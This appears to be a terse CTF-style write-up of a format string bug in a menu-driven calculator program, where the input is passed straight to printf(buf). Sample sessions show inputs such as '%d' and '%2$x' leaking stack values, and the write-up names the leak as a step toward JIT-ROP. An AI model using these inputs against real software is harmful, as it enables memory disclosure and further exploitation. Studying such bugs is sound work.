 # Vulnerability

```
Menu:
(1)  Addition
(2)  Subtraction
(3)  Exit
Enter your choice (1-3):
%d
Invalid input:
134514544
Menu:
(1)  Addition
(2)  Subtraction
(3)  Exit
Enter your choice (1-3):
3
```

"Invalid input" 
buf
printf(buf)

format string attack


Enter your choice (1-3):
%2$x
Invalid input:
bffff458

Leak !

JIT-ROP
Leak -> formatstring

